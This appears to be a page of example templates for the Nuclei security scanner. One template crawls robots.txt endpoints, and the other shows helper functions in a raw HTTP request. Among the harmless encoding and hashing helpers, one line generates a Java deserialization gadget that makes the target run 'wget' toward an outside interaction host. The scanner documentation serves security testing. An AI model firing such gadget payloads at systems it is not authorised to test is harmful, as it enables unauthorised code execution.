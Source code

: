 ```yaml
id: valid-robotstxt-endpoints

info:
  name: Iterate robots.txt and request endpoints
  author: pdteam
  severity: info

requests:
  - raw:
      - |
        GET /robots.txt HTTP/1.1
        Host: {{Hostname}}

      - |
        GET {{endpoint}} HTTP/1.1
        Host: {{Hostname}}

    iterate-all: true
    extractors:
      - part: body
        name: endpoint
        internal: true
        type: regex
        regex:
          - "(?m)/([a-zA-Z0-9-_/\\\\]+)"

    matchers:
      - type: status
        status:
          - 200
```

#### help_functions

```yaml
id: helper-functions-examples

info:
  name: RAW Template with Helper Functions
  author: pdteam
  severity: info

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        01: {{base64("Hello")}}
        02: {{base64(1234)}}
        03: {{base64_decode("SGVsbG8=")}}
        04: {{base64_py("Hello")}}
        05: {{contains("Hello", "lo")}}
        06: {{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
        07: {{gzip("Hello")}}
        08: {{hex_decode("6161")}}
        09: {{hex_encode("aa")}}
        10: {{html_escape("<body>test</body>")}}
        11: {{html_unescape("&lt;body&gt;test&lt;/body&gt;")}}
        12: {{len("Hello")}}
        13: {{len(5555)}}
        14: {{md5("Hello")}}
        15: {{md5(1234)}}
        16: {{mmh3("Hello")}}
```
